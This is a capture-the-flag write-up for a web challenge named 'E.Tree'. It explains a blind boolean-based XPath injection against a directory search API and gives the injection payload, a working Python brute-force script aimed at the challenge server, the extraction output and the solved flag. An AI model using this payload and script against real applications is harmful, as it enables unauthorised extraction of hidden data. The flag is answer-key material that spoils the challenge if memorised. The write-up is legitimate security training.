

# E.Tree
## Description
After many years where humans work under the aliens commands, they have been gradually given access to some of their management applications. Can you hack this alien Employ Directory web app and contribute to the greater human rebellion?

## Files
Provided xml document with data.

```xml
<district id="confidential">
    
        <staff>
            <name>confidential</name>
            <age>confidential</age>
            <rank>confidential</rank>
            <kills>confidential</kills>
        </staff>
        <staff>
            <name>confidential</name>
            <age>confidential</age>
            <rank>confidential</rank>
            <kills>confidential</kills>
        </staff>
        <staff>
            <name>confidential</name>
            <age>confidential</age>
            <rank>confidential</rank>
            <kills>confidential</kills>
            <selfDestructCode>CHTB{f4k3_fl4g</selfDestructCode>
        </staff>
        
    </district>

    <district id="confidential">
    
        <staff>
            <name>confidential</name>
            <age>confidential</age>
            <rank>confidential</rank>
            <kills>confidential</kills>
        </staff>
        <staff>
            <name>confidential</name>
            <age>confidential</age>
            <rank>confidential</rank>
            <kills>confidential</kills>
            <selfDestructCode>_f0r_t3st1ng}</selfDestructCode>
        </staff>
        <staff>
            <name>confidential</name>
            <age>confidential</age>
            <rank>confidential</rank>
            <kills>confidential</kills>
            
        </staff>
    </district>
```

### Methodology
We can ask the website to retrieve an alien commander (staff) from the `xml` document that is on the server. However in the `element tree` there is a hidden `tag` with the flag that we want. Since the webiste is using `xpath` to retrieve data from the document, we can exploit it to fetch other elements from the document.

Example request


We have a boolean server answer (success, failure). We will use a special `xpath` query to exfiltrate the flag one char at the time (blind boolean-based).

```json
{"search":"a'] or substring((//staff[position()=2]/selfDestructCode/text()),1,1)='4' or /staf[nam='a"}
```

This payload will go to the appropriate element and check if the first character of the element is a char `4`. We get a success so we are right. We bruteforce the remaining characters. The flag is divided into 2 parts. First part is on `position` 3 and the second part in on 2 (`position()`).

## Exploit
```python
#!/usr/bin/python3

import requests
import json

st = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!#$%&()*+,-./:;<=>?@[]^_{|}~'
flg = ''

for k in range(1, 26):
  for i in range(0, len(st)-1):
    # first run
    data = {"search":"a'] or substring((//staff[position()=3]/selfDestructCode/text())," + str(k) + ",1)='" + str(st[i]) + "' or /staf[nam='a"}

    # second run
    #data = {"search":"a'] or substring((//staff[position()=2]/selfDestructCode/text())," + str(k) + ",1)='" + str(st[i]) + "' or /staf[nam='a"}
  
    r = requests.post('http://138.68.148.149:31179/api/search', json=data)
    j = json.loads(r.content.decode())
    
    try:
      a = j['success']
      flg += str(st[i])
      print(flg)
      break
    except Exception as e:
      pass
```

After the first run (with position as 3).

```
[REDACTED]
CHTB{Th3_3xTr
CHTB{Th3_3xTr4
CHTB{Th3_3xTr4_
CHTB{Th3_3xTr4_l
CHTB{Th3_3xTr4_l3
CHTB{Th3_3xTr4_l3v
CHTB{Th3_3xTr4_l3v3
CHTB{Th3_3xTr4_l3v3l
CHTB{Th3_3xTr4_l3v3l_
```

After the second run (with position as 2).
```
[REDACTED]
4Cc3s$_c0n
4Cc3s$_c0nT
4Cc3s$_c0nTr
4Cc3s$_c0nTr0
4Cc3s$_c0nTr0l
4Cc3s$_c0nTr0l}
```

## Flag
**CHTB{Th3_3xTr4_l3v3l_4Cc3s$_c0nTr0l}**